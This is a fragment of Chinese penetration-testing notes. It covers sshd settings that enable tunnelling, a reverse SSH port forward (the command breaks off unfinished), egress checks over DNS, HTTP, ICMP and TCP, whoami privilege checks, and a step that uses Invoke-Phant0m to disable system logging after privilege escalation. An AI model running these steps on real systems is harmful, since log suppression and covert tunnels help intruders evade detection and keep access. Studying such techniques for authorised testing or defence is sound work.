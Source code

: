 ```
# 配置文件 /etc/ssh/sshd_config

AllowAgentForwarding yes
AllowTcpForwarding yes
GatewayPorts yes
```

端口转发

```
ssh -CNfT -R 4444:
```



## 判断协议出网

dns

```
nslookup 8.8.8.8  # windows
dig 8.8.8.8   # linux
```

http

```
curl www.baidu.com   # windows
wget www.baidu.com
```

icmp

```
ping www.baidu.com
```

tcp

```
telnet www.baidu.com
```

## 关闭系统日志记录

提权后关闭系统日志记录

```
工具：https://github.com/hlldz/Invoke-Phant0m.git
```

## 信息收集

- 查看当前用户及权限

  ```
  whoami /user
  whoami /priv
  ```
